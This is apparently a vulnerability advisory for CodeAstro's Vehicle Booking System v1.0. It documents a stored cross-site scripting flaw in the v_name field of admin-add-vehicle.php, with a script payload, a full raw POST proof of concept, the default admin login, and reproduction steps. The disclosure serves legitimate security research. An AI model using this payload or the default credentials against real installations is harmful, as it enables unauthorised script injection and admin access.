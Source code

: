 # Vulnerability Description

[Vehicle Booking System v1.0](https://codeastro.com/vehicle-booking-system-in-php-with-source-code/) was discovered to contain a cross-site scripting (XSS) vulnerability via the admin-add-vehicle.php. It is an open source project from https://codeastro.com/ . This vulnerability allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the v_name parameter.

1. Vulnerability Submitter: Tr0e
  
2. vendors: [Vehicle Booking System in PHP with Source Code - CodeAstro](https://codeastro.com/vehicle-booking-system-in-php-with-source-code/)
  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version
  
4. Vulnerability location: /VehicleBooking-PHP/admin/admin-add-vehicle.php
  

# Vulnerability Verification

[+] Payload:

```java
<script>alert("XSS")</script>
```

POC：

```js
POST http://192.168.0.120:91/VehicleBooking-PHP/admin/admin-add-vehicle.php HTTP/1.1
Host: 192.168.0.120:91
Content-Length: 905
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.120:91
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHwRD9k9A7fnBXCiu
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.120:91/VehicleBooking-PHP/admin/admin-add-vehicle.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=ldi7mdlvm8g7bnfhunuvrhp8ne
Connection: close

------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_name"

<script>alert("XSS")</script>
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_reg_no"

aaa
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_pass_no"

111
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_driver"

Demo User
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_category"

Bus
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_status"

Booked
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_dpic"; filename="Tr0e.jpg"
Content-Type: image/jpeg

123
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="add_veh"


------WebKitFormBoundaryHwRD9k9A7fnBXCiu--
```

## How to verify

1. Build the vulnerability environment according to the steps provided by the source code author;
2. log in to the background management system through the default account and password（Email: [admin@mail.com](mailto:admin@mail.com) Password: codeastro.com）;
3. The vulnerability lies in the "Vehicles - Add - Add Vehicle" function, you should inserts Payload when you Add Vehicle, as shown in the following figure：

![image](https://user-images.githubusercontent.com/42080954/194755943-5766c3be-f473-4a72-97a2-5cb3145571f7.png)
![image](https://user-images.githubusercontent.com/42080954/194755996-24fbb451-9d75-41a4-abd3-8fbf44caf1a8.png)
